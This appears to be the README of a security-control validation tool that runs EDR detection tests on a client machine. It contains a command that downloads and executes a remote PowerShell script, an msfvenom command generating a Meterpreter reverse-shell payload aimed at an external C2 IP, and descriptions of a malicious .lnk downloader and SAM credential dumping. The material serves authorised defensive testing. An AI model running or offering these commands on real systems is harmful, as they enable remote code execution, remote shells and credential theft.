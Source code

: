 # ResponseValidation
```
                                                                                 @@@      
                                                                              @@@ @ @@@@  
                                                                            @@@ @ @@@ @   
                                                                         @@@@ @@@@ @  @@@ 
                                                                      /@@@ @@@@  @@@@@ @  
                                                                   #@@. @@@@ @@@@@ &@     
                                                                @@@@@@@@  @@@   @@@@@@&   
                                                             @@@@@@@@@@@@  @@@@@@ @@      
                                                          @@@@@@@@@@@@@@@@   @@@@@@       
                                                       @@@@@@@@@@@@@ %@@@@@   @@          
                                   @@               @@@@    @@@@@@@@   @@@@@@@.@          
                              @@@@ @@@@          @@@@       @@@@@@@@      @@              
                           @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @                 
                        @@@@            @@@   @@@       @@@@@@@@@@@@@@ @                  
                        @@               @@@ @@@       @@@@@@@  @@@@                      
                         @@              @@@@@@      @@@@@@@@@@  @@                       
                          @@              @@@@      @@@@@@@@@@@@                          
                           @(          /@@@        @@@@@    @                             
                           @@       @@@@          @@@@@@@@ @                              
                           @ @@@@@@@#             /@@@@@@@                                
                         @@@@@@@                    @@@@ @                                
                       @  @@@@@                       @@@@                                
                     @  @@@@             @@/            @@@@@@                            
                    @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@         
                     @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@          
                      @           @@@@@ @@                  &@@& @@  @@@@@@               
                                 @@@@@@@*                                                 
                                @@@ @@           TRIFIDENT VALIDATION                                         
                             @@   @              - POWERSHELL TESTS -                                      
                         @@ @@@@@                                                         
                             @        
```

# DO NOT RUN WITHOUT EXPRESSED CONSENT FROM TRIFIDENT
To execute, simply run the following command from a machine with PowerShell installed (Windows / MacOS)
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/TRIFIDENT/ResponseValidation/main/RunTests.ps1").Content
```

## What does this Tool Do?
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter
>  
> Generated by Trifident, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


